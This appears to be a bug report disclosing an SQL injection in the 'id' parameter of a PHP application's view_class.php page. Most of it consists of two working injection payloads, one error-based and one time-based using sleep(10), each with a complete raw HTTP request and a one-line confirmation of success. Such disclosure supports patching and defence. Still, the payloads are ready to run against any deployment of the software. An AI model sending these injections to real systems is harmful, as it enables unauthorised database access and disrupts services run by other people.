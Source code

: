 BUG_Author:sixiaokai

Vulnerability File: /aqpg/users/classes/view_class.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 5 from(select count(*),concat(0x71727374,(select (elt(233=233,1))),0x61626364,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'b'='b

```
GET /aqpg/users/classes/view_class.php?id=1%27%20and%20(select%205%20from(select%20count(*),concat(0x71727374,(select%20(elt(233=233,1))),0x61626364,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)%20and%20%27b%27=%27b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=v09icqq9rmfo32ghml3dote35g
Connection: close
```

Injection success based on errors

![image](https://github.com/si-xiao-kai/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(10)))a) AND 'b'='b

```
GET /aqpg/users/classes/view_class.php?id=1%27%20and%20(select%201%20from%20(select(sleep(10)))a)%20AND%20%27b%27=%27b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=v09icqq9rmfo32ghml3dote35g
Connection: close
```

Server response time is 10 seconds

![image](https://github.com/si-xiao-kai/bug_report/blob/main/sql2.png)
